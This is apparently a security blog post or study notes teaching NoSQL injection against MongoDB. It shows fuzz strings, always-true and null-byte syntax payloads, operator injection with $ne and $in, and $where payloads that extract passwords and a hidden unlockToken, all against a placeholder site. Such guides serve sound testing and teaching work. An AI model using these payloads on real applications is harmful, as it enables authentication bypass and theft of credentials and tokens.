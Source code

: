 ```yaml
---
title: NoSQL Injection Techniques and Exploits
date: 2024-12-20
categories: [Web Security, Nosql Injection]
tags: [nosql, injection, mongodb, security, web, fuzzing, exploitation]
author: spideyy
description: Exploring NoSQL injection techniques, including syntax injection and operator abuse , A complete Guide For Beginner and a Refresher 
---
```


### Types
- syntax injection
- operator injection
### NoSQL Syntax Injection

- **Definition:** Similar to SQL injection,  involves breaking the query syntax and exploiting vulnerabilities.

#### Detecting Syntax Injection in MongoDB

1. Test each input by submitting fuzz strings and special characters.

#### Fuzz Strings

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```

#### Testing

**Example:**

`https://insecure-website.com/product/lookup?category=fizzy`

- The server handles the query as:
    
    ```javascript
    this.category == 'fizzy'
    ```
    
- Fuzz the input using the _fuzz strings_ and analyze the response.
    
- Determine which characters (e.g., single or double quotes) impact the query.
    

**Examples:**

```javascript
this.category == '''
this.category == '\''
```

#### Boolean Influence Testing

**False Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x
```

- No categories are displayed since the query evaluates to false.

**True Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x
```

- The `fizzy` category is displayed, indicating boolean influence.

#### Overriding Existing Conditions

- Use the `||` (OR) operator to override conditions, ensuring the query always returns true:

```
https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1
```

- Server query becomes:

```javascript
this.category == 'fizzy'||'1'=='1'
```

- All categories are displayed.

#### Null Character Injection

- MongoDB may ignore all characters after a null character (`\u0000`).

**Example:**

If the server query is:

```javascript
this.category == 'fizzy' && this.released == 1
```

After injecting a null character:

```javascript
this.category == 'fizzy'\u0000' && this.released == 1
```

- Unreleased objects may be displayed.

---

### Operator Injection

- **Definition:** Abusing NoSQL operators like `$where`, `$ne`, `$in`, and `$regex` to exploit vulnerabilities.

#### Injecting into Query Operators

1. **Example Query:**

```json
{"username":"wiener"}
```

- Queries for username = `wiener`.

**Injection Example:**

```json
{"username":{"$ne":"invalid"}}
```

- Query becomes `username != invalid`, which returns all usernames except `invalid`.

2. Transforming input:

```
username=wiener becomes username[$ne]=invalid
```

3. Complex Query Example:

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

- Fetches data if the username is one of `admin`, `administrator`, or `superadmin`, and the password is not empty.

#### Steps to Test:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators into the JSON.

---

### Exfiltrating Data in MongoDB

**Example:**

```
https://insecure-website.com/user/lookup?username=admin
```

Server query:

```json
{"$where":"this.username == 'admin'"}
```

#### Payload Examples:

1. To check if the first character of the password is `a`:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

2. To check if the password contains digits:

```
admin' && this.password.match(/\d/) || 'a'=='b
```

3. To find the password length using binary search:

```
administrator' && this.password.length < 30 || 'a'=='b
```

---

### Extracting Field Names, Lengths, and Values

**Example Query:**

```javascript
db.user.findOne(userInfo)

let userInfo = {
    "_id": "skjfskmjfsdf",
    "username": "carlos",
    "password": {
        "$ne": ""
    },
    "$where": "function(){ return 0;}"
}
```

#### Steps to Extract Information:

1. Check error messages:
    
    - **1:** Account Locked
    - **0:** Invalid
2. Find hidden field names and their lengths:
    

**Example Payloads:**

- Find hidden field name:

```javascript
"$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"
```

- Find hidden field name length:

```javascript
"$where": "function(){ if(Object.keys(this)[3].length == 1) return 1; else 0; }"
```

- Hidden field name `unlockToken`:

```javascript
"$where": "function(){ if(this.unlockToken.length == 1) return 1; else 0; }"
```

3. Determine value length and content:

- Length is 16:

```javascript
"$where": "function(){ if(this.unlockToken.length == 16) return 1; else 0; }"
```

- Check if value starts with `a`:

```javascript
"$where": "function(){ if(this.unlockToken.match(/^a/)) return 1; else 0; }"
```

- Check if value contains digits:

```javascript
"$where": "function(){ if(this.unlockToken.match(/\\d/)) return 1; else 0; }"
```

---